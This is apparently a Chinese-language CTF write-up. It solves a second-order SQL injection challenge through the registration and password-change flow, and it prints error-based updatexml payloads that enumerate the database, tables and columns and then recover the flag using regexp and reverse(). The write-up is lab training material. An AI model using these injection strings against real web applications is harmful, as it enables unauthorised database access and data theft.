 ![upload successful](./images/pasted-411.png)
没什么重点，注册一个`admin"#,`，修改密码，成功登录admin，发现和普通人账号一样

![upload successful](./images/pasted-412.png)
既然是个注入题，那就应该是再注册那里注入

注册用户<code>123"||'</code>更改密码
![upload successful](./images/pasted-413.png)

查询库名:<code>123"||(updatexml(1,concat(0x7e,(select(database())),0x7e),1))#</code>

![upload successful](./images/pasted-414.png)
爆表名:<code>123"||(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='web_sqli')),0x7e),1))#</code>

![upload successful](./images/pasted-415.png)
爆列名:<code>123"||(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),0x7e),1))#</code>

![upload successful](./images/pasted-416.png)
爆flag:<code>123"||(updatexml(1,concat(0x7e,(select(group_concat(flag))from(flag)),0x7e),1))#</code>

![upload successful](./images/pasted-417.png)
不在这里

爆users表:<code>123"||(updatexml(1,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')),1))#</code>

![upload successful](./images/pasted-418.png)
<code>
regexp 正则表达式匹配 由于报错注入的长度限制 需要使用正则表达式
那么直接去查 real_flag_1s_here 这一列 为xxxxxxxxxxxxxx
由于长度的限制导致
用正则表达式匹配 flag 可以得到一半的 flag
</code>
正序:<code>123"||(updatexml(1,(select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')),1))#</code>

![upload successful](./images/pasted-419.png)
XPATH syntax error: '{dab1d25a-0c31-4dd5-93bc-b98a31b'

逆序:<code>123"||(updatexml(1,concat('~',reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#</code>

![upload successful](./images/pasted-420.png)
XPATH syntax error: '~}9852bb13a89b-cb39-5dd4-13c0-a5'

拼接拿下flag{dab1d25a-0c31-4dd5-93bc-b98a31bb2589}

# [WUSTCTF2020]CV Maker1
